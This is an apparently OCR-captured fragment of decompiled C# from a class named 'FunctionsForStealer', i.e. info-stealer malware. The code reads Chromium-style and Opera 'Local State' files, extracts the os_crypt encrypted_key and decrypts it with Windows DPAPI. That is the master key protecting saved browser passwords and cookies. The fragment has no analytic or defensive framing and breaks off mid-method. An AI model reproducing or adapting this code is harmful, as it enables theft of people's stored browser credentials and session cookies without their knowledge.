 ```csharp
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__0.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "os_crypt", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				string text3 = target(<>p__, target2(<>p__2, FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0.Target(FunctionsForStealer.LocalStateKeys.<>o__0.<>p__0, obj)));
				byte[] array = Convert.FromBase64String(text3).Skip(5).ToArray<byte>();
				return ProtectedData.Unprotect(array, null, DataProtectionScope.LocalMachine);
			}

			// Token: 0x0600001C RID: 28 RVA: 0x00003124 File Offset: 0x00001324
			public static byte[] GetKeyOpera()
			{
				string text = Variables.roamingappdata + "\\Opera Software\\Opera Stable\\Local State";
				string text2 = File.ReadAllText(text);
				object obj = JsonConvert.DeserializeObject(text2);
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2 = CallSite<Func<CallSite, object, string>>.Create(Binder.Convert(CSharpBinderFlags.None, typeof(string), typeof(FunctionsForStealer.LocalStateKeys)));
				}
				Func<CallSite, object, string> target = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2.Target;
				CallSite <>p__ = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__2;
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1 == null)
				{
					FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1 = CallSite<Func<CallSite, object, object>>.Create(Binder.GetMember(CSharpBinderFlags.None, "encrypted_key", typeof(FunctionsForStealer.LocalStateKeys), new CSharpArgumentInfo[] { CSharpArgumentInfo.Create(CSharpArgumentInfoFlags.None, null) }));
				}
				Func<CallSite, object, object> target2 = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1.Target;
				CallSite <>p__2 = FunctionsForStealer.LocalStateKeys.<>o__1.<>p__1;
				if (FunctionsForStealer.LocalStateKeys.<>o__1.<>p__0 == null)
				{
```